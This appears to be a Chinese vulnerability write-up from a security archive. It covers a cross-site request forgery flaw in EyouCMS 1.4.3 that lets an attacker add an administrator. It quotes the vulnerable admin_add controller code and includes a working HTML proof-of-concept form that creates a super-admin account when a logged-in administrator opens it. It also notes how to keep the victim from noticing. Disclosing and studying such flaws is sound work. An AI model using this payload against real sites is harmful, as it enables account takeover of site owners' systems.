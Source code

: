 Eyoucms 1.4.3 csrf漏洞
======================

一、漏洞简介
------------

可通过csrf漏洞添加管理员

二、漏洞影响
------------

Eyoucms 1.4.3

三、复现过程
------------

### 漏洞分析

漏洞触发点在`application\admin\controller\Admin.php`

      public function admin_add()
     {
         $this->language_access(); // 多语言功能操作权限

         if (IS_POST) {
             $data = input('post.');

             if (0 < intval(session('admin_info.role_id'))) {
                 $this->error("超级管理员才能操作！");
             }

             if (empty($data['password']) || empty($data['password2'])) {
                 $this->error("密码不能为空！");
             }else if ($data['password'] != $data['password2']) {
                 $this->error("两次密码输入不一致！");
             }

             ...

             if (empty($data['pen_name'])) {
                 $data['pen_name'] = $data['user_name'];
             }
             if (M('admin')->where("user_name", $data['user_name'])->count()) {
                 $this->error("此用户名已被注册，请更换",url('Admin/admin_add'));
             } else {
                 $admin_id = M('admin')->insertGetId($data);
                 if ($admin_id) {
                     adminLog('新增管理员：'.$data['user_name']);

                     /*同步追加一个后台管理员到会员用户表*/
                     try {
                         $usersInfo = Db::name('users')->field('users_id')->where([
                                 'username'  => $data['user_name'],
                                 'lang'      => $this->admin_lang,
                             ])->find();
                         if (!empty($usersInfo)) {
                             $r = Db::name('users')->where(['users_id'=>$usersInfo['users_id']])->update([
                                     'nickname'      => $data['user_name'],
                                     'admin_id'      => $admin_id,
                                     'is_activation' => 1,
                                     'is_lock'       => 0,
                                     'is_del'        => 0,
                                     'update_time'   => getTime(),
                                 ]);
                             !empty($r) && $users_id = $usersInfo['users_id'];
                         } else {
                             // 获取要添加的用户名
                             ...

                             $users_id = Db::name('users')->insertGetId($AddData);
                         }
                         if (!empty($users_id)) {
                             Db::name('admin')->where(['admin_id'=>$admin_id])->update([
                                     'syn_users_id'  => $users_id,
                                     'update_time'   => getTime(),
                                 ]);
                         }
                     } catch (\Exception $e) {}
                     /* END */

                     $this->success("操作成功", url('Admin/index'));
                 } else {
                     $this->error("操作失败");
                 }
             }
         }

可以看到进队管理员权限进行校验，而没有对提交token进行校验，导致恶意用户可引导管理员点击构造的url进行管理员添加，实际操作可不跳转到管理页面，以免引起怀疑。

### 漏洞复现

登陆后台，在高级选项\>管理员\>新增管理员点击之后截包

![](./resource/Eyoucms1.4.3csrf漏洞/media/rId26.png)

### poc

     <html>
     <!-- CSRF PoC - generated by Burp Suite Professional -->
     <body>
     <script>history.pushState('', '', '/')</script>
         <form action="http://127.0.0.1/EyouCMS1.4.3/login.php?m=admin&c=Admin&a=admin_add&lang=cn" method="POST">
         <input type="hidden" name="user&#95;name" value="test" />
         <input type="hidden" name="password" value="test" />
         <input type="hidden" name="password2" value="test" />
         <input type="hidden" name="pen&#95;name" value="" />
         <input type="hidden" name="true&#95;name" value="" />
         <input type="hidden" name="mobile" value="" />
         <input type="hidden" name="role&#95;id" value="&#45;1" />
         <input type="submit" value="Submit request" />
         </form>
     </body>
     </html>

模拟管理员点击

![](./resource/Eyoucms1.4.3csrf漏洞/media/rId28.png)

添加完成

![](./resource/Eyoucms1.4.3csrf漏洞/media/rId29.png)
